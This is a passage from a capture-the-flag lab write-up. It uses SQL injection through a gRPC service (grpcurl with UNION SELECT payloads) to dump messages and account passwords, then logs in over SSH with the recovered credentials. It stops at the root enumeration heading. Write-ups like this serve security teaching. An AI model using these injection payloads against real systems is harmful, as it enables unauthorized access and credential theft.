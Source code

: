 `accounts` has `username` and `password`, `messages` has `id`, `username`, and `message`.

#### messages

There are only two messages in the DB:

```

oxdf@hacky$ grpcurl -d 'id: "320 union select group_concat(id || \":\" || username || \":\" || message) from messages"' -H "token: $TOKEN" -plaintext -format text 10.10.11.214:50051 SimpleApp.getInfo
message: "1:admin:The admin is working hard to fix the issues.,652:0xdf:Will update soon."

```

I’m using `||` to concatenate columns, and then `group_concat` to get multiple rows. The message from admin says the admin is working on issues, and the other is the message for my current user.

#### accounts

There are three rows in `accounts`:

```

oxdf@hacky$ grpcurl -d 'id: "320 union select group_concat(username || \":\" || password ) from accounts"' -H "token: $TOKEN" -plaintext -format text 10.10.11.214:50051 SimpleApp.getInfo
message: "admin:admin,sau:HereIsYourPassWord1431,0xdf:0xdf0xdf"

```

admin has the password admin, and sau has the password “HereIsYourPassWord1431”.

### SSH

That password works for sau over SSH:

```

oxdf@hacky$ sshpass -p HereIsYourPassWord1431 ssh sau@10.10.11.214
sau@pc:~$

```

And I can read `user.txt`:

```

sau@pc:~$ cat user.txt
1b0d383d************************

```

## Shell as root

### Enumeration

#### sau
